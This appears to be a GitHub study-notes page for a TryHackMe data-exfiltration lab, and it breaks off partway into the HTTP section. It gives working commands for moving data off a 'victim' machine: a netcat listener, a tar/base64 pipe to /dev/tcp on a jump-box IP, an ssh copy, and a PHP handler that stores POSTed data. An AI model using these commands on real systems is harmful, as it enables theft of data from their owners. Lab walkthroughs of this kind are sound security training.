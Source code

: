 # Data Exfiltration

## How to use Data Exfiltration
#### Traditional Data Exfiltration
#### C2 Communications
#### Tunneling

## Traditional Data Exfiltration
![exfiltration](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/4b08c31e-0867-49a9-913c-558386ada8a4)  

### Exfiltration using TCP socket

<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/3ef38151-35ff-4e52-9933-f1deaca27a2b" width=600>  

1. The first machine is listening over TCP on port 1337
2. The other machine connects to the port specified in step 1. For example, nc 1.2.3.4 1337
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.  

- Listening on port TCP/8080 in the JumpBox
```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```
- Exfiltrate Data over TCP Socket from the victim machine!
```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/[JUMP_BOX_IP]/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```  
- Restoring the tar file
```
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

### Exfiltration using SSH
- Exfiltration data from the victim1 machine
```
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## C2 Communications
![exfiltrarion2](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/f32ff963-384a-4d9a-8ebb-91bf35fdc5e1)  

### Exfiltrate using HTTP(S)
#### HTTP Data Exfiltration
1. An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.  

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.   

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```  

